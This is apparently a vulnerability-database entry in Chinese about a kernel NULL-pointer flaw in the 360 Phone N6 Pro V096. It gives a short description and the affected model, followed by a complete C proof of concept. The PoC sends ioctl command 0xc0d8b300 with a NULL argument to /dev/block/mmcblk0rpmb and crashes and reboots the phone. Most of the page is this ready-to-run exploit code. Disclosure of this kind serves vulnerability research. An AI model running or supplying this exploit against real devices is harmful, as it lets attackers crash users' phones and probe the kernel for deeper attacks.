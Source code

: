 <languages   />

漏洞原理
--------

360 Phone N6 Pro V096內核組件中嘅內核模塊允許攻擊者使用命令3235427072喺設備`/dev/block/mmcblk0rpmb`上通過ioctl嘅自變量注入精心設計嘅自變量，並導致內核崩潰。

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
360 Phone N6 Pro 1801-A01

POC
---

    /*
    * This is poc of 360 N6 Pro, 1801-A01
    * Android Version: 7.1.1
    * Version Number: V096
    * Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
    * A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
    * This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
    */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/block/mmcblk0rpmb";
    static command = 3235427072; // 0xc0d8b300

    int main(int argc, char **argv, char **env) {
    int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd < 0) {
    printf("Failed to open %s, with errno %dn", driver, errno);
    system("echo 1 > /data/local/tmp/log");
    return -1;
    }

    printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
    printf("System will crash and reboot.n");
    if(ioctl(fd, command, NULL) < 0) {
    printf("Allocation of structs failed, %dn", errno);
    system("echo 2 > /data/local/tmp/log");
    return -1;
    }
    close(fd);
    return 0;